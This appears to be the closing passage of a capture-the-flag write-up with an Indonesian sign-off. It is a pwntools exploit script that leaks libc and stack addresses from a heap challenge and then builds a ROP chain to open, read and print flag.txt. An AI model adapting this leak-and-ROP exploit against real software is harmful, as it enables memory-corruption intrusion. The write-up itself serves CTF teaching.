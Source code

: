 ```py

add(0, 0x0, "asdf", usecontent=False)
view(0)
libc_leak = int(codecs.encode(p.recvuntil("\x7f")[-6:][::-1], 'hex'), 16)
print(hex(libc_leak))
libc_base = libc_leak - 0x1ebbf0
lose(1)

environ = libc_base + 0x1ef2e0
open_func = libc_base + 0x110e50
read_func = libc_base + 0x111130
write_func = libc_base + 0x1111d0
pop_rdi = libc_base + 0x0000000000026b72
pop_rsi = libc_base + 0x0000000000027529
pop_rdx = libc_base + 0x0000000000162866
pop_rsp = libc_base + 0x0000000000032b5a
ret = libc_base + 0x0000000000025679
pop_rcx = libc_base + 0x00000000001056fe
syscall = libc_base + 0x000000000011b880


# Get stack address leak
buf = b""
buf += p64(0x1)
buf = buf.ljust(128, b"\x00")
buf += p64(environ)
add(1, 0x280, buf)

add(0, 0, "asdf", usecontent=False)
view(0)
stack_leak = int(codecs.encode(p.recvuntil("\x7f")[-6:][::-1], 'hex'), 16)
print(hex(stack_leak))
lose(1)


## ROP chain!
buf = b""
buf += p64(0)*2 + p64(0x0101010101010101)*6
buf = buf.ljust(128, b"\x00")
buf += p64(stack_leak-0x158)*32
add(1, 0x280, buf)
add(0, 0x130, p64(ret)*10 + p64(pop_rsi) + p64(stack_leak-0xd8) + p64(pop_rdx) + p64(0)*2 + p64(pop_rcx) + b"flag.txt" + p64(0) + p64(pop_rdi) + p64(2) + p64(syscall) + 
    p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(stack_leak) + p64(pop_rdx) + p64(0x1000)*2 + p64(read_func) + 
    p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(stack_leak) + p64(pop_rdx) + p64(0x50)*2 + p64(write_func))

p.interactive()
```

Terima kasih telah membaca :)

<br>
<br>
<br>